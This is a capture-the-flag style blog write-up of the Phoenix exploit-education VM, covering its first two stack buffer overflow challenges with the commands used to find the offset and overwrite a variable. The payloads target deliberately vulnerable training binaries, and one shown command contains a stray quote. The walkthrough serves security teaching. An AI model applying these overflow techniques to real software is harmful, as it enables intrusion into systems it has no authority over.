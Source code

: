 ```yaml
---
title: "Phoenix"
date: 2020-03-23T11:24:34-04:00
draft: false
description: "Adventures in Learning ROP (Return Oriented Programming) | Using Exploit-Exercises Phoenix VM Image"
---
```


**Description:** 

The Phoenix VM Image can be found here:  https://exploit.education/phoenix/

The virtual machine containers a number of vulnerable executables that allow students to learn stack, format-string, and heap-based overflows. The stack series contains executables stack 0-6. Format string vulnerabilities include format 0-4, and the heap vulnerabilitites include heap 0-3.  

# Stack 0

Running ./stack-zero provides us with a place to enter some data. Entering a random sequence "AAAA" gives us the output:  ```Uh oh, 'changeme' has not yet been changed. Would you like to try again?```

Trying to send the program even more data (since this is a BoF lab) results in a successful completion of the challenge. 
```
python -c 'print "A" * 100' | ./stack-zero

Welcome to phoenix/stack-zero, brought to you by https://exploit.education
Well done, the 'changeme' variable has been changed!
```


# Stack 1  

```bash
pattern_create.rb -l 100
```  

```bash
./stack-one Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A  

Welcome to phoenix/stack-one, brought to you by https://exploit.education
Getting closer! changeme is currently 0x63413163, we want 0x496c5962
```

```bash
pattern_offset -l 0x63413163

[*] Exact match at offset 64  
```  

Since we know there is a buffer size of 64 before we write to the changeme address space, we can write 64 bytes of garbage, followed by the intended value to store, written in little-endian so that it can be properly stored in memory. 

```bash
python -c 'print "A" * 64 + "\x62\x59\x6c\x49"'
```



The above will print 64 A's followed by the little-endian address.  

We can pass this to the stack-one executable as such:  


__python__
```bash
./stack-one $($python -c 'print "A" * 64" + "\x62\x59\x6c\x49"')
```
>Welcome to phoenix/stack-one, brought to you by https://exploit.education
Well done, you have successfully set changeme to the correct value  


__python3__
```bash
./stack-one $(python3 -c 'print("A"*64 + "\x62\x59\x6c\x49")')
```

>Welcome to phoenix/stack-one, brought to you by https://exploit.education
Well done, you have successfully set changeme to the correct value










